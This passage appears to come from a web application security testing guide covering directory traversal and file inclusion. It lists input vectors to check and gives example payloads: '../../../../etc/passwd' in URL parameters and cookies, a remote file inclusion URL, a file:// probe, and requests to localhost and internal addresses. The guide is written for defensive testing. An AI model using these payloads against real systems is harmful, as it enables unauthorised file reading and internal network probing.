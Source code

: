 ### Black-Box Testing

#### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to input validation bypassing, the tester needs to enumerate all parts of the application that accept content from the user. This also includes HTTP GET and POST queries and common options like file uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?
  - `http://example.com/getUserProfile.jsp?item=ikki.html`
  - `http://example.com/index.php?file=content`
  - `http://example.com/main.cgi?home=index.htm`
- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
  - `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
  - `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

`http://example.com/getUserProfile.jsp?item=../../../../etc/passwd`

For the cookies example:

`Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd`

It's also possible to include files and scripts located on external website.

`http://example.com/index.php?file=http://www.owasp.org/malicioustxt`

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way.

`http://example.com/index.php?file=file:///etc/passwd`

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services.

`http://example.com/index.php?file=http://localhost:8080 or http://example.com/index.php?file=http://192.168.0.2:9080`

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.
